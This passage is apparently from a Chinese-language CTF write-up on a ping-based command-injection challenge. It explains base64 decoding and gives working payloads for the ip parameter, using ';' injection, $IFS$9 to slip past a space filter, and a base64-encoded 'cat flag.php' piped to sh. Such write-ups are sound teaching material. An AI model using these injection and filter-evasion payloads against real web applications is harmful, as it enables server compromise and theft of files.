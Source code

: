 linux的base64解密命令：
   - ` base64-d file.txt ` : 从文件中读取已编码的数据并解码
   - ` echo "base64_encoded_string" | base64 -d ` : 对base64编码的字符串进行解码
   - ` echo -n "base64_encoded_string" | base64 -d `: 对base64编码的字符串进行解码（不添加换行符）
   - ` echo "base64_encoded_string" | base64 -d | sh `: 对base64编码的字符串进行解码，并且对解码后的字符串命令进行执行

了解以上知识后，我们举例下面几个可以查看flag命令：

**加密命令**：` echo "cat flag.php" | base64 `

**解密命令并执行**: ` echo Y2F0IGZsYWcucGhwCg== | base64 -d | sh ` 。对 ` Y2F0IGZsYWcucGhwCg==base64 ` 解密得到 ` cat flag.php ` 并且进行执行。

我们利用解密命令，注意空格符号会被过滤，全部用 ` $IFS$9 ` 代替空格即可。

所以最终的payload如下：` /?ip=;echo$IFS$9Y2F0IGZsYWcucGhwCg==$IFS$9|$IFS$9base64$IFS$9-d$IFS$9|$IFS$9sh `。（这次的payload我没有填ip地址，单纯是不想让他输出而已，你想加一个ip地址也可以）

最后的结果也是一样的，网页显示不出来，要在F12源代码中查看。

如果我硬要你显示出来在网页呢？那就再**base64加密一次**，这样你的注释符号全部统统被我加密去掉了。payload就是再补充一个 ` |$IFS$9base64 ` 即可。

即` /?ip=;echo$IFS$9Y2F0IGZsYWcucGhwCg==$IFS$9|$IFS$9base64$IFS$9-d$IFS$9|$IFS$9sh|$IFS$9base64 `

结果如下：

<div align=center><img src="../images/2024/07/29/ping_bug2/Ping9.png" alt="Ping9" border="0" width="100%" height="80%"></div>
